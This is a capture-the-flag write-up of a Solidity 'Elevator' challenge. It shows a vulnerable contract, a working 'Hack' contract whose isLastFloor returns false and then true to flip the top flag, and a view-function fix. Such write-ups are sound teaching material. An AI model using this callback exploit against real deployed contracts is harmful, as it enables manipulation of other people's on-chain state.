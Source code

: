 ## Elevator Challenge

## The goal of this challenge is to set the top boolean to true in the Elevator contract which would mean that we have reached the top of the building.

Contract:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint) external returns (bool);
}

contract Elevator {
    bool public top;
    uint public floor;

    function goTo(uint _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

If you look at the goTo function it is taking an instance of the building contract which means this can only be called by another contract, So let's create another contract and change the isLastFloor function to have a falsy value first and then a set it up to true in the second call to set the top state to true and call the function goTo regardless of whatever value.

```javascript
contract Hack{

    // First of let's set the target to be the elevator contract within the constructor
    Elevator internal elevator;

    constructor(address _target) {
        elevator = Elevator(_target);
    }

    bool isSecondCall;

    // in the first call it will set the isSecondCall variable to true and return false and return true after that on every function call
    function isLastFloor(uint) public returns(bool) {
        if(isSecondCall) {
            return true;
        }

        isSecondCall = true;
        return false;
    }

    function attack() public {
        elevator.goTo(99); // value doesn't matter at all
    }

}
```

This will set the value of the top to be true and we will reach the top and successfully finish the challenge.

**Prevention:**

We would have been able to prevent this from happening if we declared the isLastFloor function as a `view` function which would have prevented it from being able to change the state variable.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint) external view returns (bool);
}

contract Elevator {
    bool public top;
    uint public floor;

    function goTo(uint _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}

```

This wouldn't have allowed the user to be able to reach the top.
